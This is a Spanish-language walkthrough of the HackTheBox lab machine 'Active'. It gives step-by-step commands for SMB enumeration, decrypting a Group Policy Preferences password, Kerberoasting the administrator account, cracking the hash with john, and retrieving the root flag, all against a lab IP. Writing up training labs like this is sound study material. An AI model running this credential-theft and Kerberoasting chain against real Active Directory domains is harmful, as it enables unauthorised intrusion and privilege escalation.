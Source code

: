 # Máquina "Active" de HackTheBox

## Características

- Windows
- Kerberoasting  
- Active Directory
- Dificultad: Easy
- Internal
- Domain Reconnaissance
- SMB
- Penetration Tester Level 1
- Default Credentials
- CVE-2014-1812
- Kerberos
- Public Vulnerabilities
- Anonymous/Guest Access
- User Enumeration  
- Weak Permissions
- Authentication
- CVE Exploitation  
- Password Cracking

## Util para

- OSCP
- OSEP  
- Active Directory

## Reconocimiento

**IP objetivo:** `10.10.10.100`

### Escaneo inicial

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPort
```

### Escaneo detallado

```bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49169 10.10.10.100 -oN targeted
```

### Identificación del dominio

```bash
crackmapexec smb 10.10.10.100
```

![Identificación del dominio](imagenes/active/smb1.png)

## Enumeración SMB

### Listar recursos

```bash
smbclient -L 10.10.10.100 -N
```

### Verificación de permisos

```bash
smbmap -H 10.10.10.100
```

### Exploración del directorio

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/
```

**Salida:**
```
dr--r--r--                0 Sat Jul 21 06:37:44 2018    .
dr--r--r--                0 Sat Jul 21 06:37:44 2018    ..
dr--r--r--                0 Sat Jul 21 06:37:44 2018    DfsrPrivate
dr--r--r--                0 Sat Jul 21 06:37:44 2018    Policies  
dr--r--r--                0 Sat Jul 21 06:37:44 2018    scripts
```

### Descubrimiento de credenciales

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{GUID}/MACHINE/Preferences/Groups/groups.xml
```

![Archivo groups.xml](imagenes/active/xml.png)

### Desencriptación

```bash
gpp-decrypt 'clave_encriptada'
```

### Validación de credenciales

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'clave_desencriptada'
```

## Explotación

### Enumeración de grupos

```bash
rpcclient -U "SVC_TGS%clave" 10.10.10.100 -c 'enumdomgroups'
```

![Enumeración de grupos](imagenes/active/enum.png)

### Ataque Kerberoasting

```bash
GetUserSPNs.py active.htb/SVC_TGS:clave -request
```

### Crackeo de hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

## Post-explotación

### Obtención de flags

```bash
smbmap -H 10.10.10.100 -u 'Administrator' -p 'clave_admin' --download Users/Administrator/Desktop/root.txt
```

## Notas

Algunos procedimientos pueden variar según la configuración del sistema. Si encuentras errores o tienes sugerencias, contacta a: lerioxirit@proton.me
